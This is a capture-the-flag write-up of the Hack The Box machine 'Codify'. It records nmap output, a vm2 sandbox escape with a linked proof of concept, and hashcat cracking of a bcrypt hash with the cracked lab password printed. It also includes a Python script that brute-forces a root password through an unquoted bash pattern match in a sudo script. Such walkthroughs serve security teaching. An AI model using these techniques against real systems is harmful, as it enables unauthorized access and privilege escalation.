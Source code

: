 ## Machine Info

![image-20231203210719041](./Codify.assets/image-20231203210719041.png)

## Recon

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 80, 3000: http nodejs

## Foothold

### vm3 sandbox escape

- enum: vm3, sandbox, nodejs(javascript)

![image-20231204011007713](./Codify.assets/image-20231204011007713.png)

![image-20231204011011272](./Codify.assets/image-20231204011011272.png)

- vm3, restricted sandbox

![image-20231204010942460](./Codify.assets/image-20231204010942460.png)

- search sploit online

![image-20231204011027049](./Codify.assets/image-20231204011027049.png)

- **[Sandbox Escape in vm2@3.9.16 (github.com)](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)**

- RCE PoC

![image-20231204011128717](./Codify.assets/image-20231204011128717.png)

- get shell

![image-20231204011144555](./Codify.assets/image-20231204011144555.png)

## Privilege Escalation

![image-20231204011157157](./Codify.assets/image-20231204011157157.png)

![image-20231204011159963](./Codify.assets/image-20231204011159963.png)

### svc -> joshua

- enum db file

![image-20231204011221148](./Codify.assets/image-20231204011221148.png)

- check details inside this db file and find cred

![image-20231204011240044](./Codify.assets/image-20231204011240044.png)

![image-20231204011243672](./Codify.assets/image-20231204011243672.png)

- crack this hash -> **joshua:spongebob1**

```bash
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
$ hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
```

![image-20231204011311938](./Codify.assets/image-20231204011311938.png)

![image-20231204011330985](./Codify.assets/image-20231204011330985.png)

### joshua -> root

- `sudo -l`

![image-20231204011340576](./Codify.assets/image-20231204011340576.png)

- `if [[ $DB_PASS == $USER_PASS ]]; then` -> **pattern match** (**Ref**: [shellharden/how_to_do_things_safely_in_bash.md at master · anordal/shellharden (github.com)](https://github.com/anordal/shellharden/blob/master/how_to_do_things_safely_in_bash.md))

![image-20231204011413970](./Codify.assets/image-20231204011413970.png)

- So, input `*` for matching all strings

![image-20231204011441203](./Codify.assets/image-20231204011441203.png)

- failed to check dumped db file [x]

![image-20231204011455369](./Codify.assets/image-20231204011455369.png)

- **brute force** **DB_PASS** based on this logical vuln of this script

```python
import string
import subprocess

cred = ""
found = False

while not found:
    for char in string.ascii_letters + string.digits:
        test = cred + char + "*"
        cmd = f"echo {test} | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE).stdout.decode("utf-8")
        if "Password confirmed!" in output:
            cred += str(char)
            print(f"[*] find the {len(cred)} th char: {char}")
            break
    else:
        found = True
        
print(f"DB_PASS: {cred}")
```

![image-20231204011552208](./Codify.assets/image-20231204011552208.png)

- get cred: **root:kljh12k3jhaskjh12kjh3**

![image-20231204011610480](./Codify.assets/image-20231204011610480.png)

## Exploit Chain

vm2 sandbox esacping -> rce -> get svc shell -> sensitive db file leakage -> crack pass hash -> get joshua shell -> misconfig sudo script -> brute force root pass -> root shell
